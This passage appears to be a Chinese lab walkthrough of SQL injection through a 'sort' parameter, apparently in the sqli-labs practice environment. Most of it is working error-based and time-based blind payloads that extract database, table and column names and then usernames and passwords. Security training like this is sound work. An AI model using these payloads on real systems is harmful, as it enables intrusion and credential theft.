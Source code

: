 
> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?sort=3
回显正常

 ?sort=4
报错

 说明有3个字段


> 
<h3>3.5、第四步：暴库</h3>
?sort=(extractvalue(1,concat(0x7e,(select database()),0x7e)))#

 
或者
?sort=1 and updatexml(1,concat(0x7e,(database()),0x7e),1)

<hr/>
 或者（时间盲注）
?sort=1 and if(substr(database(),1,1)='s',sleep(5),0)


> 
<h3>3.6、第五步：爆表名</h3>
?sort=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)

 
<hr/>
或者（时间盲注）

?sort=1 and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',sleep(5),0)


<br/>  

> 
<h3>3.7、第六步：爆字段</h3>
?sort=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1)


 
<hr/>
或者（时间盲注）

?sort=1 and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u',sleep(5),0)


> 
<h3>3.9、第八步：爆数据</h3>
?sort=1 and updatexml(1,concat(0x7e,(select group_concat(username,password) from security.users),0x7e),1)

<hr/>
或者（时间盲注）
?sort=1 and if(substr((select group_concat(username,password) from security.users limit 0,1),1,1)='d',sleep(5),0)
